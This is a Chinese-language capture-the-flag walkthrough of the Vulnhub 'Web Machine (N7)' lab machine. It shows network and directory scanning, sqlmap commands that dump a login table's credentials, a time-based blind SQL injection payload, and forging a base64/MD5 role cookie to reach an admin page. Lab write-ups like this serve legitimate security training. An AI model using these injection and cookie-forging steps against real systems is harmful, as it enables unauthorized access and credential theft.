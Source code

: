 ```yaml
---
layout: post
title: Web Machine (N7)
subtitle: Web Machine (N7)
date: 2022-12-09 20:35
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - Vulnhub
---
```

## Web Machine (N7)

靶机ip：192.168.56.101

kali攻击机ip：192.168.56.102

注：关于vmware和virtual box虚拟机如何建立网络连接，详见：[不同虚拟化平台的虚拟机之间进行网络通信 - 简书](https://www.jianshu.com/p/632d91db9430)

### 1. 使用nmap扫描c段

```shell
nmap -sS 192.168.56.0/24
# 发现192.168.56.101
nmap -sV -sC -A 192.168.56.101
# 发现只有80端口开放
```
### 2. 扫描目录

```shell
dirb http://192.168.56.101
# http://192.168.56.101/index.html
# http://192.168.56.101/server-status
```

在浏览器查看，未发现有效信息，继续扫描

```shell
wfuzz -w /usr/share/fuzzDicts/ctfDict/ctf.txt --hc 404 http://192.168.56.101/FUZZ

ffuf -u "http://192.168.56.101/FUZZ" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -fc 404 -e .html,.txt,.php,.zip
```

发现exploit.html文件，访问并提交文件，发现跳转到localhost。将localhost改为靶机ip尝试。

![image-20221209203518987.png](https://kyonk.v6.army:1443/Zk10Bb.png)

点击提交，得到部分flag `FLAG{N7`

通过扫描得到`enter_network/index.php` 和 `enter_network/admin.php` 。第一个为登陆界面，第二个需要admin权限。接下来可以对登陆界面使用sqlmap检测是否有注入漏洞，或是bp抓包分析。

### 3. 使用sqlmap进行sql注入

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --dbs --current-db
# 数据库名 Machine
```

![image-20221209174849702.png](https://kyonk.v6.army:1443/hMbCrZ.png)

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" --tables
```

得到tables: login

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" -T "login" --columns
```

得到colums: password;role;username

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" -T "login" -C "username,role,password" --dump
# username:administrator
# role:admin
# password:FLAG{N7:KSA_01}
```

![image-20221209174731002.png](https://kyonk.v6.army:1443/5AH2sR.png)

### 4. bp抓包分析

![image-20221209205529082.png](https://kyonk.v6.army:1443/nKhqbY.png)

response中set-Cookie中`%253D`为=

```
MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM=
# 尝试进行base64解密
21232f297a57a5a743894a0e4a801fc3
# 32位尝试MD5解密
admin
```

思路1：用户名处输入`1'+or+sleep(3)--+`发现有注入漏洞，可根据时间盲注，结合bp或sqlmap。

思路2：根据此漏洞猜解用户名，不如思路1。

思路3：针对admin.php，修改request中cookie中role为admin

![image-20221209212032503.png](https://kyonk.v6.army:1443/gAMIcc.png)

得到：   `KSA_01}`